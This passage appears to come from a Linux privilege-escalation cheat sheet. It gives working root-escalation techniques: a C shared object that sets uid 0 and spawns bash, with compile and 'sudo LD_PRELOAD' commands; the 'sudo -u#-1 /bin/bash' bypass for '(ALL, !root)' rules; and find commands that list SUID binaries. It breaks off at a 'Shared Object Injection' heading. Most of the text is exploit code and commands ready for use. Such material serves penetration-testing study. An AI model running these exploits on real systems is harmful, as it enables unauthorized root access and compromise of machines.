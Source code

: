 To exploit this, we can write a simple C program to spawn a shell:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");   
}
```

After compiling the program with the following command:

```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We can then load `shell.so` as `LD_PRELOAD` to gain root access by executing any command that can run with root privileges:

```shell
sudo LD_PRELOAD=/home/user/shell.so apache2
```
## Vulnerability Related to [(ALL, !root) /bin/bash]

In cases where we cannot explicitly run `/bin/bash` as root, there exists an exploit detailed in [Exploit DB](https://www.exploit-db.com/exploits/47502).

When running `sudo -l`, we observed the following permissions:

```shell
User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash
```

This indicates that the user `hacker` can execute `/bin/bash` with sudo, but not directly as root. To exploit this, we can use the following command:

```shell
sudo -u#-1 /bin/bash
```

# Escalation path with SUID

Command to find all executable with SUID for this user

```shell
find / -perm -u=s -type f 2> /dev/null
find / -perm -04000 -ls 2> /dev/null
```

# Shared Object Injection
